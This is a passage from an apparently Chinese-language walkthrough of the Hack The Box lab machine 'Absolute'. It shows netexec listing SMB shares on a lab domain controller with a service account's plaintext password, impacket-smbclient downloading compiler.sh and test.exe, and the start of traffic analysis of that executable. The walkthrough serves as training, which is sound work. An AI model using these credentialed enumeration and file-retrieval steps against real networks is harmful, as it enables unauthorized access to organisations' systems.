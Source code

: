 ```bash
kali@kali[~]$ netexec smb 10.10.11.181 -u 'svc_smb' -p 'AbsoluteSMBService123!' -k --shares 
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\svc_smb:AbsoluteSMBService123! 
SMB         10.10.11.181    445    DC               [*] Enumerated shares
SMB         10.10.11.181    445    DC               Share           Permissions     Remark
SMB         10.10.11.181    445    DC               -----           -----------     ------
SMB         10.10.11.181    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.181    445    DC               C$                              Default share
SMB         10.10.11.181    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.181    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.181    445    DC               Shared          READ            
SMB         10.10.11.181    445    DC               SYSVOL          READ            Logon server share 
```

我们在这个文件共享中，找到了两个文件，下载下来

```bash
kali@kali[~]$ impacket-smbclient 'absolute.htb'/'svc_smb':'AbsoluteSMBService123!'@dc.absolute.htb -k
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
Type help for list of commands
# use Shared
# ls
drw-rw-rw-          0  Thu Sep  1 10:02:23 2022 .
drw-rw-rw-          0  Thu Sep  1 10:02:23 2022 ..
-rw-rw-rw-         72  Thu Sep  1 10:02:23 2022 compiler.sh
-rw-rw-rw-      67584  Thu Sep  1 10:02:23 2022 test.exe
# get compiler.sh
# get test.exe
```

尝试运行一下 test.exe 
```cmd
C:\Users\Lamber\Desktop>.\test.exe

C:\Users\Lamber\Desktop>
```

发现没有任何输出，我们尝试用wireshark监听下网卡流量

![Absoulte-wiresahrk-1.png](Absoulte-wiresahrk-1.png)
